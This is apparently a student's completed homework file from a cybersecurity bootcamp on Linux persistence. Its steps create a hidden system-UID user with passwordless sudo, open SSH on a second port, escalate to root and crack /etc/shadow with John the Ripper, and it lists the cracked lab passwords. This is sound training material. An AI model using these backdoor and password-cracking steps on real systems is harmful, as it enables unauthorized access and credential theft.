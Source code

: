 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - **adduser sysd**

2. Give your secret user a password: 
    - **hack**

3. Give your secret user a system UID < 1000:
    - **usermod -u 900 sysd**

4. Give your secret user the same GID:
   - **groupmod -g 900 sysd**

5. Give your secret user full `sudo` access without the need for a password:
   -  **sudo visudo**

6. Test that `sudo` access works without your password:

   - **sysd ALL=(ALL:ALL) NOPASSWD:ALL**
    - **sudo -l command after changing access permission output: User sysd may run the following commands on UbuntuDesktop:**
    **(ALL:ALL) NOPASSWD: ALL**

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```
    nano /etc/ssh/sshd_config
    Add Port 2222 under Port 22
    Looks like:  Port 22
                 Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - **systemctl restart ssh**

2. Exit the `root` account:
    - **su sysd** 
    

3. SSH to the target machine using your `sysd` account and port `2222`:
    - **ssh sysd@192.168.6.105 -p 2222**

4. Use `sudo` to switch to the root user:
    - **sudo su**

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - **ssh sysd@192.168.6.105 -p 2222**
    
2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - **sudo su**
    - **john /etc/shadow**
    - **passwords(user=passwd): stallman=computer, babbage=freedom, mitnik=trustno1, lovelace=dragon, turing=lakers, sysadmin=passw0rd, root=passwd, student=Goodluck!,**
---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

